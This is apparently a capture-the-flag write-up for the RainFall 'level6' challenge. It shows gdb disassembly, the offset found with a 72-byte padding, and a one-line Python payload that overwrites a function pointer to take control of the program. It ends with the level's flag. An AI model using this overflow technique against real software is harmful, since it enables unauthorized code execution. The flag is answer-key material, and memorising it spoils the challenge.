 - `level6@RainFall:~$ gdb ./level6`
<pre>
(gdb) disass main
Dump of assembler code for function main:
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
<strong>   0x080484d0 <+84>:    call   *%eax</strong>
   0x080484d2 <+86>:    leave 
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) b *0x080484d0
Breakpoint 1 at 0x80484d0
(gdb) r $(python -c "print('A' * 72 + 'BBBB')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 $(python -c "print('A' * 72 + 'BBBB')")

Breakpoint 1, 0x080484d0 in main ()
<strong>(gdb) x/s $eax
0x42424242:      <Address 0x42424242 out of bounds></strong>
</pre>

- `./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")`
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
